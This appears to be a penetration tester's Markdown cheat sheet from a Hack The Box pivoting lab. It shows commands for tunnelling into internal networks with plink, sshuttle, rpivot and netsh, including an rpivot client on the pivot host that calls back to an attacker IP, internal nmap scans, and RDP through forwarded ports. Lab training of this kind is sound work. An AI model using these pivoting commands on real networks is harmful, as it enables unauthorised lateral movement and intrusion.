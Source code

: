 ## SSH for Windows - plink.exe

```bash
# in Windows Plink used to create dynamic port forwards and SOCKS proxies if SSH not available. (https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)
# HACKER : 10.10.x.x, M1:10.10.x.x/172.16.x.x, M2:172.16.x.x
# HACKER(windows):9050==>M1(ubuntu):SOCKS==>M2(windows)

cmd > plink -ssh -D 9050 M1-USER@<M1-ip> # dynamic port frw

# then use Proxifier.exe  AS Administrator (https://www.proxifier.com) to confige SOCKS server for 127.0.0.1 and port 9050, video https://www.youtube.com/watch?v=ujsb2pLZUiw
mstsc.exe # RDP access to M2 
```
![](https://academy.hackthebox.com/storage/modules/158/66-1.png)
![](https://academy.hackthebox.com/storage/modules/158/reverse_shell_9.png)

## SSH Pivoting with Sshuttle

```bash
# Sshuttle (https://github.com/sshuttle/sshuttle) it  pivoting python tool 
# dynamic port forwarding
ATTACKER ==> M1(pivot host)==> internal network(172.16.5.0/23) 

sudo sshuttle -r <M1-USER>@<M1-IP> 172.16.5.0/23 -v

# test access to privet network
nmap -v -sV -p3389 172.16.5.19 -A -Pn 
```

## Web Server Pivoting with Rpivot
![](https://academy.hackthebox.com/storage/modules/158/77.png)
```bash
# Rpivot python2 reveerse socks proxy tool, can expose the local port on the external natwork (https://github.com/klsecservices/rpivot.git)
# ATTACKER ==> M1(pivot host)==> Privet_web-server(172.16.5.135) 

# dynamic port frw
  # on the attack host:
  python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
  # on the pivot host (M1)
  python2.7 client.py --server-ip <ATTACKER-IP> --server-port 9999

  proxychains firefox-esr 172.16.5.135:80 # access to the privet web server
  
# Some organizations use HTTP proxies with NTLM auth linked to the Domain Controller; in such cases, rpivot supports NTLM credentials to authenticate through the proxy.
  python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```
## Port Forwarding with Windows Netsh
![[Pasted image 20250619144847.png]]
```bash
Netsh is a Windows command-line tool that can help with the network configuration
# ATTACKER-->M1:8080-->M2(RDP 172.16.5.25:3389)

#  Using Netsh.exe to local Port Forward (ON M1)
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.27.226 connectport=3389 connectaddress=172.16.5.19

netsh.exe interface portproxy show v4tov4  #=>10.129.15.150 8080 172.16.5.25 3389


# on attcker host we connect to priver rdp service
xfreerdp /v:<M1-IP>:8080 /u:<USER> /p:<PASS>
```